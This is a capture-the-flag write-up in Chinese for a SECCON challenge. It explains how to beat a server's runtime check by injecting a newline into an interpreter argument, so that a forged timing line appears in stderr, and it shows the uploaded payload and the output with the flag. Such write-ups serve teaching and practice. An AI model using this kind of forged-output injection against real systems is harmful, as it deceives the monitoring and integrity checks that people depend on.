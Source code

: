 檔案提供了所有的程式碼，可以先看一下 server.py 來知道內部流程

應該不是要 bypass timeout ，因為系統要先獲取其 signal 並忽略後才可 bypass

這裡思考轉為如何欺騙

parse_time() 只在 stderr 找程式執行時間，故只要偽造好並在 stderr 中插入即可

題目這邊無法插入 python code ，所以轉為在 nodeJs 上想辦法

nodejs 中，如果讓 mul 的兩參數都是字串，會讓其寫入到 stderr

在 interpreter.py 的 parse_args

```
def parse_args(args):
        if args is not None:
                args = REGS.sub(r"'\1'", args)
                args = args.strip()
                try:
                        if args:
                                args = ast.literal_eval(args)
                except:
                        raise Exception('Invalid arguments: %s' % orig)
                if op not in handler:
                        raise Exception('Unknown opcode: %s' % op)
                if type(args)is not tuple:
                        args = args,
        else:
                args = ()
        return args
```

其中的 ast.literal_eval("('1','2\\n')") 會返回 ('1', '2\n')

可以插入 \n 在裡面，也就是成單獨一行

所以上傳 flag.js
```
ls r1,"\nuser\t0m1000.020s\n"
mul r1,r1,r2
exit
```

可以得到
```
Interpreter Version 1.0

==STDERR==
fatal error: '
user	0m1000.020s
' * None: str * imm is only allowed for string multiplication
===REGISTERS===
r01: 0x50bf58, type: 3
===FRAMES===
#0 (0x0x507f00): <root>

real	0m1.950s
user	0m1.828s
sys	0m0.112s

Time: 1000.02
Congratulations! Here is your flag: SECCON{lul_that_was_cheating}
```